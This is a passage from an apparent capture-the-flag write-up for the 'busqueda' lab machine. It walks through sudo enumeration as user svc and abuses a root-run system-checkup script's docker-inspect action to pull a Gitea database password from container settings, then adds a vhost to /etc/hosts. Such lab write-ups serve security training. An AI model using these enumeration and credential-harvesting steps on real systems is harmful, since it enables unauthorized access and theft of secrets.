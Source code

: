 Checking Svc's sudoers permissions with the gathered password shows something of interest.

```bash
svc@busqueda:/var/www/app/.git$ sudo -l
[sudo] password for svc: 
Matching Defaults entries for svc on busqueda:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

Apparently, this script uses docker on the bg.

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

There are two containers.

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE          
960873171e2e   gitea/gitea:latest  ...
f84a6b33fb5a   mysql:8             ...
```

And one of them has a credentials for another user.

```bash
svc@busqueda:/var/www/app/.git$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}'  960873171e2e | jq .
{
...
    "GITEA__database__DB_TYPE=mysql",
    "GITEA__database__HOST=db:3306",
    "GITEA__database__NAME=gitea",
    "GITEA__database__USER=gitea",
    "GITEA__database__PASSWD=<REDACTED>",
...
}
```

To proceed, we will append the new vHost subdomain to /etc/hosts.

```bash
tail -n 1 /etc/hosts
10.129.16.142   searcher.htb gitea.searcher.htb
```

And access the subdomain from our browser.
